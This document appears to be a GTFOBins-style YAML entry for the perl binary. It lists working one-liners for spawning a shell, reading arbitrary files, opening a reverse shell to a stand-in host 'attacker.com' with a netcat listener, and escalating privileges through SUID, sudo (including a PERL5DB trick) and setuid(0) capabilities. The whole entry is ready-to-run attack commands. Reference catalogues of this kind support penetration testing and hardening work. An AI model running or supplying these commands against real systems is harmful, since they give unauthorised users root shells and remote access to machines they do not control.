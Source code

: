 ```yaml
---
functions:
  shell:
    - code: perl -e 'exec "/bin/sh";'
  file-read:
    - code: |
        LFILE=file_to_read
        perl -ne print $LFILE
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perl -e 'exec "/bin/sh";'
    - description: Don't forget to `CTRL+D` to exit the perl shell and get the shell.
      code: sudo PERL5OPT=-d PERL5DB='exec "/bin/sh"' perl
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```

